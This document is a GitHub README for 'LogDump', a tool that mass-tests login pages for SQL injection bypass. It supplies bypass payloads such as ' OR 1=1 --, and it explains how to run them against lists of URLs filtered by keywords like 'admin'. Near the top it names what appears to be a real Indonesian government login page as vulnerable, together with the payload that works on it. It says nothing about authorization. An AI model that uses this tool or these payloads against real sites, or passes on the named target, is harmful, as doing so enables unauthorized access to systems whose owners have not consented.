 # LogDump

**LogDump** is an automated SQL injection testing tool designed to test login pages for vulnerabilities. It sends injection payloads into the username and password fields to check for potential security flaws. The tool supports both single URL testing and testing multiple URLs from a file, with logging, retry mechanisms, and multi-threading for improved performance.
# Vuln Link:
              **Login found: http://ptsp.pt-nad.go.id/aipda/page/login.php with payload: ' OR 1=1 -- -**
## Features

- **Automated SQL Injection Testing:** Test login pages with a variety of payloads to check for vulnerabilities.
- **Single URL Testing:** Test one URL at a time.
- **Multiple URL Testing:** Test multiple URLs from a file, with optional URL filtering based on keywords.
- **Logging:** Logs results of successful and failed injection attempts into separate log files.
- **Exponential Backoff Retry:** Automatically retries failed requests with an increasing delay.
- **Multi-threading:** Performs concurrent tests on multiple URLs and payloads for faster results.
- **Customizable Fields:** Allows customization of the username and password field names.

## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/HackfutSec/LogDump.git
   ```

2. Navigate to the project directory:

   ```bash
   cd LogDump
   ```

3. Install the required dependencies:

   ```bash
   pip install -r requirements.txt
   ```

   If you don't have a `requirements.txt`, you can install the required libraries manually:

   ```bash
   pip install requests
   ```

## Usage

### 1. Test a Single URL

To test a single login URL, run the program and provide the URL when prompted:

```bash
python logdump.py
```

You will be asked to enter:

- **Username field name** (default: `username`)
- **Password field name** (default: `password`)
- **URL** to test

The program will attempt to bypass the login using a series of payloads and log the results.

### 2. Test Multiple URLs from a File

To test multiple URLs, the program will ask for the path to a file containing the URLs you want to test.

- URLs will be filtered based on keywords you provide (optional).
- The results will be logged and saved in the `results.txt` file.

```bash
python logdump.py
```

When prompted, enter:

- **File path** containing URLs to test.
- **Keywords** to filter URLs (optional).

### Logs

- **`success_injections.log`**: Logs successful injection attempts.
- **`error_injections.log`**: Logs errors or failed attempts.
- **`test_injections.log`**: General logs, including retries and requests.

The results of successful logins are also saved in a text file (`results.txt`).

### Custom Payloads

You can add custom payloads by editing the `payloads.json` file. This file should contain a list of payload strings, such as:

```json
[
    "' OR 1=1 --",
    "' OR 'a'='a",
    "' OR 1=1#"
]
```

## Configuration

You can customize the program by modifying the following parameters:

- **Username field name** and **Password field name**: Set default field names for the login form (default: `username`, `password`).
- **Payload file**: The default payload file is `payloads.json`. You can replace or modify it to suit your needs.

## Example

### Running the program with a single URL:

```bash
$ python logdump.py
Enter the URL to test (e.g., http://example.com/login.php): http://example.com/login.php
Enter the username field name (default 'username'): 
Enter the password field name (default 'password'): 
Testing with payload: ' OR 1=1 --
Testing with payload: ' OR 'a'='a
Login found with payload: ' OR 1=1 -- on URL http://example.com/login.php
Login found: http://example.com/login.php with payload: ' OR 1=1 --
```

### Running the program with multiple URLs from a file:

```bash
$ python logdump.py
Enter the path to the file containing the URLs to test: urls.txt
Enter the keywords to filter URLs (separated by commas): admin,login
```

## Logging

- **Success logs**: All successful injection attempts are logged in `success_injections.log`.
- **Error logs**: Errors, such as network issues or invalid responses, are logged in `error_injections.log`.
- **General logs**: General information, including retries, are stored in `test_injections.log`.

## Dependencies

- `requests`: A simple HTTP library for making requests.
- `concurrent.futures`: For multi-threading to run tests concurrently.

## Contributing

Contributions are welcome! Feel free to fork the repository, open issues, and submit pull requests.

### Steps to Contribute:

1. Fork this repository.
2. Create a new branch (`git checkout -b feature-name`).
3. Make your changes.
4. Commit your changes (`git commit -am 'Add new feature'`).
5. Push to the branch (`git push origin feature-name`).
6. Create a pull request.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
